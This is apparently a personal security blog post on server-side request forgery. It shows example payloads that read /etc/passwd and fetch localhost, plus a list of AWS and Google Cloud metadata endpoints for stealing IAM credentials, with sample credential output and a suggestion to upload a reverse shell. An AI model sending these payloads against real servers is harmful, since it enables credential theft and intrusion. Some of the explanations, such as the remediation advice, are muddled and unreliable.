 ```yaml
---
layout: post
published: true
title: ssrf exploitation breaking the protoclos Part : 3
tags:
 - ssrf
 - web pentesting
 
comments: true

---
```


# Introduction
hey folks! what’s up? This is my second artice about ssrf exploitation if you doesn’t read part 1 you can read it from in this article here I divided ssrf there in two types according to my resarch blind ssrf and untrusted input So, i picked up remote code execution via untrusted input in ssrf and also discuss about role of ssrf in xxe and request smuggling and next article will be about all of chaining bugs with ssrf :p
I also wanna cover Os command injection and bypassing admin panel dashboard with server side request forgery but for the sake of length i decided to shortern this article

# Basic Plot Overview
This post is gonna all about obtaining remote code execution with ssrf since it’s not bigginer friendly article i hope so you have clear concept about url terminology if you have any uncleared concept about methedology of url then you can read it from the article written by my friend here
For the concept of ssrf back end db and how data fetch from url is so important without these concept you can’t fully undertsand ssrf let me tell you a example:-
*this is not real word example*

suppose you’r friend asking a birthday gift from you and you send it via from an courier let’s talk this example in application way in this example you are back end, let’s say courierman is server and your friend is user what’s happening here same as above the example you (back end) giving data to server(courier man) but server doesn’t have understanding of giving data his job is to send data taken from backbend and serving to user. User fetch data from server by issuing requests that’s all

# Exploitation

every web server contains confidential files which which is used for db-config,admin-config,phpinfo(),etc. since we know how a normal user fetch data from server by issuing a request let’s take an anothher example suupose we have a url :
https://www.forttesting.com?file=500.png
here we have a url what’s happening here a parameter names file is fetching 500.png file from webserver but happens if we replace it to
https://www.forttesting.com?file=file:///etc/passwd
It gives us files of users on server file:// is a protocal we talk about this protocols in later sections It gives us everything blindly if there is no input sanitization like
https://www.forttesting.com?file=http://localhost
In above piece of exploit if there is ssrf vulnerablity present on server we can download full data of localhost by using wget that was basic extraction of files but this will be considered as code injection So. for obtaining rce you have to some knowledge about cloud computing if you don’t have don’t worry read it later there are mostly two type of cloud plateforms used widely google cloud and amazon web services let’s talk about amazon web services
http://169.254.169.254/latest/meta-data/iam/security-credentials/
this endpoint will leak the list of roles of user with their security credentials there are other many endpoint by exploiting we can obtain rce in aws but this one is my favourite so i wrote this in article okay! here is list of endpoint of aws we can disclose while exploiting ssrf
```
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
payload-credit- cobalt.io
```
here i found few payloads on cobalt o i added in articles So after issuing
https://www.forttesting.com?file=http://169.254.169.254/latest/meta-data/iam/security-credentials
you will get access key id, password, etc. like this:
**{
“LastUpdated” : “2019–08–03T20:42:03Z”,“Type” : “AWS-HMAC”,
“AccessKeyId” : “ASIA5A6IYGGDLBWIFH5UQ”,
“SecretAccessKey” : “sMX7//Ni2tu2hJua/fOXGfrapiq9PbyakBcJunpyR”,“Token” : “AgoJb3JpZ2luX2VjEH0aCXVzLWVhc3QtMSJHMEUCIQDFoFMUFs+lth0JM2lEddR/8LRHwdB4HiT1MBpEg8d+EAIgCKqMjkjdET/XjgYGDf9/eoNh1+5Xo/tnmDs“Expiration” : “2019–08–04T03:16:50Z”
}**

then just setup aws-cli and hack the web application byt uploading reverse shell that’s all about aws cli we can hack the user roles and simply hacking the web application of aws now in google cloud method is same of extracting informattion and files but endpoint is unique

```
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
that’s how rce works in ssrf we can patch ssrf by serializing the input Now, how ssrf works with other bugs let’s consider http request smuggling we send data via chunked but how ssrf plays a vital role in this vulnerablity? as i said earlier sever is very innocent who doesn’t know what to send In request smuggling vulnerablity the user manuplates the back end by isuuing chunked and craft malicious header so with the help of ssrf http request smuggling can extract dangreous files which leads to harm to the website
I also wanna tak about xml injection with ssrf but since, article is getting longer so, i end this article here and check the resouirces they have awesome writeups about ssrf
https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/
```
For further refrence:

My First Bug: Blind SSRF Through Profile Picture Upload
A writeup of my first bug!
infosecwriteups.com

SSRF (Server Side Request Forgery)
If the server is correctly protected you could bypass all the restrictions by exploiting an Open Redirect inside the…
book.hacktricks.xyz

How To: Server-Side Request Forgery (SSRF)
Server-Side Request Forgery, SSRF for short, is a vulnerability class that describes the behavior of a server making a…
www.hackerone.com






